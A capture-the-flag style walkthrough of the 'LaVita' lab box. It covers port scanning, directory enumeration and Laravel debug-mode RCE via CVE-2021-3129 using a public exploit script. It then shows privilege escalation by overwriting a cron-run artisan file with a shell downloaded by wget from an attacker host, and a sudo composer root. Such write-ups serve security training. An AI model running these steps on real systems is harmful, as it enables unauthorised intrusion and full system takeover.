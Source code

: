## IP : 192.168.176.38 

# LaVita

## nmap
```
Open 192.168.176.38:22
Open 192.168.176.38:80

PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 8.4p1 Debian 5+deb11u2 (protocol 2.0)
80/tcp open  http    syn-ack Apache httpd 2.4.56 ((Debian))
|_http-title: W3.CSS Template
|_http-favicon: Unknown favicon MD5: D41D8CD98F00B204E9800998ECF8427E
|_http-server-header: Apache/2.4.56 (Debian)
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
```

## Directory Enumeration
```bash
gobuster dir -u http://192.168.176.38 -w /home/kali/SecLists/Discovery/Web-Content/common.txt
```
```
/.git/logs/        (301) → /.git/logs
/cgi-bin/          (301) → /cgi-bin
/css/              (301) → /css/
/favicon.ico       (200)
/home             (302) → /login
/images/           (301)
/index.php         (200)
/login             (200)
/logout            (405)
/register          (200)
/robots.txt        (200)
/web.config        (200)
```

##  Account Registration & Debug Mode
- **URL:** `http://192.168.176.38/register`  
- **Register**:
  - Name: `admin`
  - E-Mail: `admin@gmail.com`
  - Password: `admin123`
- **Login** and enable debug:
  ```
  APP_DEBUG = [ENABLED]
  ```

##  Laravel Version & Exploit
- **Framework:** Laravel 8.4.0  
- **Vuln:** CVE-2021-3129 (debug RCE via log poisoning)

### Exploitation Steps
```bash
git clone https://github.com/joshuavanderpoll/CVE-2021-3129.git
cd CVE-2021-3129
pip3 install -r requirements.txt
python3 CVE-2021-3129.py --host http://192.168.176.38
# When prompted: execute whoami
# Result: www-data
# Result: Shell as `www-data`

```


## Privilege Escalation
### 1. Sudo Group Membership
```bash
sudo -l
# skunk is in sudo group
```
### 2. Cron Job Enumeration
```bash
./pspy64
# UID=1001 runs:
# /usr/bin/php /var/www/html/lavita/artisan clear:pictures
```
### 3. Replace artisan for Shell
```bash
mv artisan artisan.bak
wget http://192.168.45.196:22/shell.php -O artisan
```
- Wait for cron trigger → shell as `skunk`

### 4. Final Root via Composer
```bash
sudo /usr/bin/composer --working-dir=/var/www/html/lavita run-script x
# root shell obtained
```
